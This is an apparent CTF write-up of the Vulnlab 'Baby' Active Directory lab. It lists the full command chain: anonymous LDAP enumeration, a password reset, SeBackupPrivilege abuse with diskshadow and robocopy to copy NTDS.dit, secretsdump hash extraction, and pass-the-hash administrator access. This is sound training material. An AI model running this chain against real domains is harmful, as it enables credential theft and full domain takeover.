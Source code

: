 # Baby

This writeup provides a detailed analysis of the Active Directory exploit on the "Baby" box, a CTF on the Vulnlab platform, aiming to enumerate and exploit vulnerabilities to gain administrative access.

### Tools Used

    Nmap: Network scanning and enumeration
    Netexec (nxc): LDAP and SMB enumeration
    smbpasswd: Password manipulation tool
    Evil-WinRM: Remote access for Windows machines
    Diskshadow: Volume shadow copy manipulation
    Robocopy: File transfer within Windows
    Secretsdump.py: Hash extraction from NTDS.dit
    
## Summary of Attacks

    Network Enumeration: Identified open ports and services running on the target.
    LDAP Enumeration: Retrieved sensitive user information via anonymous bind.
    Password Change: Identified a valid user and changed their password to gain access.
    Privilege Escalation: Leveraged the SeBackupPrivilege to extract sensitive data (NTDS.dit and SYSTEM hive).
    Hash Dumping and Admin Access: Extracted NTLM hashes to gain administrative access and retrieve the final flag.

## Enumeration

Using Nmap, open ports and services were identified:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```


![i](Images/20241213023917.png)

A connection test revealed a valid connection via SMB without authentication but failed user or share enumeration:

![i](Images/20241213024456.png)

Anonymous LDAP bind returned useful information about domain users:

![i](Images/20241213024523.png)

LDAP Enumeration

Using the get-desc-users module in Netexec, further details about user accounts were retrieved:
```
nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  
```
![i](Images/20241213024833.png)

## Password Change and Privilege Verification

An error message revealed that Caroline.Robinson had a valid account but required a password reset. 

![i](Images/20241213031525.png)
 
The password was reset to Password123 using:
```
smbpasswd -r 10.10.126.10 -U caroline.robinson 
```
Access was verified, and user privileges were checked using Netexec and the whoami /priv command:
```
nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 
```
![i](Images/2024121306130.png)

The SeBackupPrivilege was identified, enabling access to sensitive files.
A shadow copy was created using Diskshadow, and the NTDS.dit and SYSTEM hive were extracted:

Create a shadow copy

raj.dsh contents:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```
unix2dos raj.dsh
```

Upload and execute commands via Evil-WinRM:

```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```


```
reg save hklm\system c:\Temp\system
```

Download files locally:

```
download ntds.dit
download system
```

## Hash Extraction and Privilege Escalation

The Secretsdump tool was used to extract NTLM hashes:
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![i](Images/20241213062005.png)

Using the NT hash for the administrator account, final access was gained, and the last flag retrieved:
```
nxc winrm 10.10.126.10 -u administrator -H hash -X "cat C:\Users\Administrator\Desktop\root.txt"
```
![i](Images/20241213062049.png)
